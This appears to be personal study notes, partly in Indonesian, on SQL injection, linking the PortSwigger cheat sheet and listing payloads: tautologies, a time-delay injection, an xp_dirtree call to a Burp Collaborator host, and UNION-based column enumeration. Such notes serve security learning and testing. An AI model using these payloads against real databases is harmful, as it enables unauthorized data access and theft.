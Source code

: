 # SQL Injection

## Resource
- [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Tips
- Tidak semua payload biasa dijalankan di address-bar browser, kadang harus menggunakan burpsuite (repeater)

## Comment
![image](https://user-images.githubusercontent.com/52058660/146121986-00960851-1a8e-4f32-8543-c980b75c6c24.png)

## Payload
```
'
' OR 1=1--
ASCII(97)
'; waitfor delay ('0:00:20')--
exec master..xp_dirtree'//asdfdagffdshsdfgadfgadfgaf.burpcollaborator.net/a'
```

## UNION Attack
Syarat:
  - The individual queries must return the same number of columns.
  - The data types in each column must be compatible between the individual queries.

Untuk melancarkan UNION attack harus memenuhi 2 syarat diatas. Dari syarat2 diatas timbullah pertanyaan:
  - How many columns are being returned from the original query?
  ```
  'UNION SELECT NULL,NULL,n--, dimana n adalah jumlah kolom
  'ORDER BY 1/2/n--, dimana n adalah jumlah kolom
  ```
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query?


